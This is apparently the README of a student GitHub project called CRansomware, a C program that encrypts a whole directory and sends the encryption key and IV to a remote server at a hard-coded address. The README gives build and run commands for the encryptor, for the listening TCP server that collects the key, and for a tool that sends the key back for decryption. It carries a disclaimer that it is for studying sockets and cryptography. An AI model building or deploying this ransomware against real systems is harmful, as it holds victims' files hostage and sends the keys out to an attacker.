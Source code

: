 # CRansomware
A little Ransomware made in C for a school project.

Please do not use it as a virus. It is not made for this purpose. The aim of this project is studying how sockets and crypto work with C.

# How to Use

You need to compilate the ransom.c

/!\ The IP and the port of the remote server (that will receive the key and the IV is hard coded). /!\

On the Client
```
gcc -o ransom ransom.c ransomlib.c -lcrypto
```
On the remote server

You compilate the TCP.C (It will allow you to get the key and IV)
```
gcc TCP.c -o TCP
```

usage of the compilated Binary

```
./TCP <IP> <PORT>
```

/!\ If the TCP server is not running, you won't be able to encrypt files /!\

# Run the Ransomware on the client

To encrypt a whole directory

```
./ransom <path> encrypt
```

To decrypt

```
./ransom <path> decrypt <key> <IV>
```

# Sendback

The send back is used to send back the key and the IV to the client (that will have the TCP scipt compilated on it).

Compilate it 
```
gcc sendback.c -o sendback
```
Run it.
```
./sendback <ip> <port> <key> <IV>
```
